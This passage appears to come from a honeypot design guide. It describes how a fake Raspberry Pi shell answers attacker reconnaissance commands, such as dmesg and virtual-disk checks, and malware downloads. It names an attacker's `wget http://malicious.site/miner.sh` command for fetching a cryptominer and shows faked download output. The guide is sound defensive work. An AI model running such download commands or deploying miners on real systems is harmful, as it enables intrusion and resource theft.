 **Response Strategy**:
```bash
# Empty output - no matches
```

**Alternative** (if dmesg restricted):
```bash
dmesg: read kernel buffer failed: Operation not permitted
```

**Rationale**:
- Modern kernels restrict dmesg to root (even for root in containers)
- Empty output authentic for bare metal
- Permission denied is acceptable fallback

---

### Command: `ls -la /dev | grep -i vd` (virtual disk devices)

**Attacker Intent**: Look for vda, vdb (common in KVM/QEMU VMs)

**Response Strategy**: Show only real device entries, no vda/vdb devices
```bash
# Include in /dev listing:
brw-rw---- 1 root disk    179,   0 Oct 23 09:15 mmcblk0
brw-rw---- 1 root disk    179,   1 Oct 23 09:15 mmcblk0p1
brw-rw---- 1 root disk    179,   2 Oct 23 09:15 mmcblk0p2
```

**Rationale**: mmcblk* devices indicate SD/MMC storage (authentic Raspberry Pi).

---

## Malware Deployment Patterns

### Command: `wget http://malicious.site/miner.sh` or `curl -O ...`

**Attacker Intent**: Download cryptocurrency miner, botnet client, or backdoor

**Honeypot Strategy**:
1. **Simulate successful download**:
   ```bash
   --2025-10-23 10:45:12--  http://malicious.site/miner.sh
   Resolving malicious.site... 1.2.3.4
   Connecting to malicious.site|1.2.3.4|:80... connected.
   HTTP request sent, awaiting response... 200 OK
   Length: 12543 (12K) [text/plain]
   Saving to: 'miner.sh'

   miner.sh            100%[===================>]  12.25K  --.-KB/s    in 0.001s

   2025-10-23 10:45:12 (8.45 MB/s) - 'miner.sh' saved [12543/12543]
   ```
